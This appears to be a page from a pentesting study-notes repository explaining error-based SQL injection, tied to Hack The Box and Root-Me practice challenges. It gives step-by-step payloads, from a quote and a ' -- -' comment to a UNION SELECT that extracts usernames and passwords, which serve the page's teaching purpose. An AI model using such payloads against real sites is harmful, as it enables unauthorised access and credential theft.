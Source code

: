 # Error-based SQLi

[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)

<div class="row row-cols-lg-2"><div>

Error-based is the simplest SQL injection. It's an injection in which DBMS errors are displayed to the user.

The hacker can easily use the output to tweak the payload until they get what they want.
</div><div>
</div></div>

<hr class="sep-both">

## Error-based SQLi Explained

<div class="row row-cols-lg-2"><div>

1. We usually start with injecting a quote `'`:

```sql!
Select name,desc from product where name LIKE '%'%'
```

☠️ The query fails because of the syntax is invalid, due to the trailing "`%'`", but we now know that an injection is possible.

<br>

2. We then comment out the rest of the query using `' --`.

```sql!
Select name,desc from product where name LIKE '%' --%'
```

☠️ The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself.
</div><div>

3. We add a space giving us the payload `' -- -`

```sql!
Select name,desc from product where name LIKE '%' -- -%'
```

✅ Between `'` and `-- -`, we can write **any** SQL code, through the syntax of the final query must be valid ✌️.

For instance, we could use `xxx' UNION Select username,password FROM users -- -` to get the list of usernames/passwords.

```sql!
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users -- -%'
```

Refers to union-based payloads.
</div></div>